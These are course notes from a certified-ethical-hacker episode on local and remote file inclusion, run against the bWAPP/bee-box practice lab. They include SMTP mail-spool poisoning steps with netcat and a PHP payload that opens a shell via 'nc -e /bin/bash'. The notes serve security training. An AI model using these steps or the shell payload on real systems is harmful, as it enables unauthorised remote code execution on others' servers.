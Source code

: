 - Filename: eccouncil-ceh31250-v12-14-8-1-lfi-rfi.md
- Show Name: CEHv12 (312-50)
- Topic Name: Web Application Hacking - Hacking Web Applications
- Episode Name: LFI/RFI
================================================================================


LFI/RFI
--------------------------------------------------------------------------------

Objectives:
--------------------------------------------------------------------------------

--------------------------------------------------------------------------------


+ What is LFI and RFI?
  - Local File Inclusion
  - Remote File Inclusion

+ RFI seem dangerous. Can we see that in action?
  - Create `shell.php` file and serve with Python
    + Start listener
      - Browse to http://bee-box/bWAPP/rlfi.php
        + Choose a language and submit
          - Modify URL for RFI to Parrot/shell.php
            + Check listener :)

+ Can you show us a few quick examples of "real world" file inclusions?
  - sqlitemanager is vulnerable
    + http://bee-box/sqlite
      - Use Burp to watch requests
	+ See GETS for **left.php** and **main.php**
	  - Use Inspector to tamper with **main.php**
	    + Use RFI for RCE (x.php)

+ Can you get system access with LFI like RFI?
  - 'Find' LFI here http://bee-box/bWAPP/rlfi.php
    + Look for ability to read mail from `/var/mail/username`
      - 'Find' mail for *www-data*
        + `nmap -T4 -p 25 bee-box`
          - `nc -nv bee-box 25`
            + `EHLO billy`
            + `MAIL FROM: sales@pwned.com`
            + `RCPT TO: www-data`
            + `DATA`
              - Add a newline/carriage return
              - Create a PHP shell
                + `<?php $shelly = shell_exec('nc -nv -e /bin/bash bee-box 9999');?>`
              - Add a newline/carriage return
              - End message with a period(.)
            + `QUIT`
      - Start listener
      - Use LFI to include mail for *www-data*
      - Check listener :)
